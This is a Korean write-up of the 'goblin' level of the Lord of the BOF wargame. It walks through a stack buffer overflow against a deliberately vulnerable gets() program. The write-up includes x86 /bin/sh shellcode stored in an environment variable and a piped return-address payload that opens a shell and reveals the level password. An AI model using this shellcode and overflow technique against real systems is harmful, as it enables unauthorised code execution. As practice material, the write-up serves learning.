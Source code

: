 # goblin

```c
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

작은 버퍼를 주는 것은 cobolt와 같은데 입력을 stdin으로 받아오는 문제이다. 그래서 한참 해맸다.

이번 문제에서는 환경 변수를 이용한 쉘 권한 상승은 같으나 리눅스의 |(pipe)를 모르면 풀기 어렵다.

그냥 입력에 쉘 코드를 포함한 값을 주면 16bytes를 넘어가고 

환경 변수의 주소를 포함한 입력을 주면 buffer에 덥어씌워지긴 하나 엔터가 들어간 이후에 값이 조금 바뀌는 것을 

확인할 수 있었다. (이 부분은 더 알아보고 싶다. 찾아도 안 나온다. ㅂㄷㅂㄷ)



일단, 환경 변수를 먼저 등록해주고 주소를 확인해준다.

```bash
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'`
```

```c
---addr.c---
#include <stdio.h>
int main(){
        printf("%p\n", getenv("shellcode"));
}
-------------
```

```bash
[cobolt@localhost cobolt]$ gcc -o addr addr.c
[cobolt@localhost cobolt]$ ./addr
0xbffffb8b
```

쉘 코드가 들어있는 환경 변수 shellcode의 주소는 0xbffffb8b이다. 

이 주소를 ret에 덥어씌워서 쉘 코드가 실행되게 만들면 되는데!!!!

나는 이때까지 

```bash
`python -c 'print "~~~~"'`
```

이렇게 사용했기에 그대로 썼는데 입력을 못 받아주고 프로그램이 종료되어서 너무 빡쳤다.

그렇게 고민하다 좀 찾아보니 |(pipe)를 사용할 때는 `가 아닌 ()에 ;cat을 넣어서 해줘야 제대로 들어간다고 해서 

```bash
(python -c 'print "\x90"*20+"\x8b\xfb\xff\xbf"';cat)
```

위와 같은 exploit code를 작성해서 |(pipe)로 goblin파일에 넘겨주었더니 깔끔하게 나왔다.. (내 1시간..)

```bash
[cobolt@localhost cobolt]$ (python -c 'print "\x90"*20+"\x8b\xfb\xff\xbf"';cat) | ./goblin
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
whoami
goblin
my-pass
euid = 503
hackers proof

```

goblin의 password는 hackers proof이다.